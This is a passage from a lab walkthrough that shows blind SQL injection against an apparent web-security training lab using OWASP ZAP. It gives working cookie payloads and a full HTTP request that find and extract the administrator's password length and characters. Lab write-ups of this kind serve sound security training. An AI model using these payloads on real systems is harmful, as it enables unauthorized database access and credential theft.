 This condition should be true, confirming that the password is greater than 1 character in length. 

![eb7cc0fc6c0f2311ba6818cc8021fd5c.png](/img/eb7cc0fc6c0f2311ba6818cc8021fd5c.png)

Send a series of follow-up values to test different password lengths. Send:

`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`

Then send: 

`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a`

Repeat this process to determine the password's length manually using ZAP's Manual Request Editor, as the length is presumably short. Once the condition is no longer valid (i.e., the "Welcome back" message vanishes), the password length, which is 20 characters long, is established. 

```
GET https://acc21f2c1e7c6c578017078200f3009b.web-security-academy.net/filter?category=Gifts HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Referer: https://acc21f2c1e7c6c578017078200f3009b.web-security-academy.net/filter?category=Gifts
Cookie: TrackingId=ttA5PuFVqBx32BKR' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a; session=IOnCeWQ4D8oa7OTRWL5c1osLrStRH4CV
Upgrade-Insecure-Requests: 1
Content-Length: 0
Host: acc21f2c1e7c6c578017078200f3009b.web-security-academy.net
```

Once the password length has been determined, the subsequent step is to test each character in the password to find its value. This process involves a significantly larger number of requests, necessitating the use of ZAP's Fuzzer. To begin with, we must create a request that we can fuzz. To do so, we use ZAP's Manual Request Editor and create a request with the following:

`TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`

![e13dcc9b89e735d06dbcc05dee02538f.png](/img/e13dcc9b89e735d06dbcc05dee02538f.png)

This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn. 

From the same windows, highlight the `a`, right click and send the request to ZAP's Fuzzer, using the context menu. 

![10ccc9894be46037a273ead992439900.png](/img/10ccc9894be46037a273ead992439900.png)

Make sure the `a` is highlights in the Fuzzer window:

![a2c905aeb9370f15dfdd5a22c72b8b8b.png](/img/a2c905aeb9370f15dfdd5a22c72b8b8b.png)

To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Click the Payloads... button, click Add..., select Numberzz and click Add:
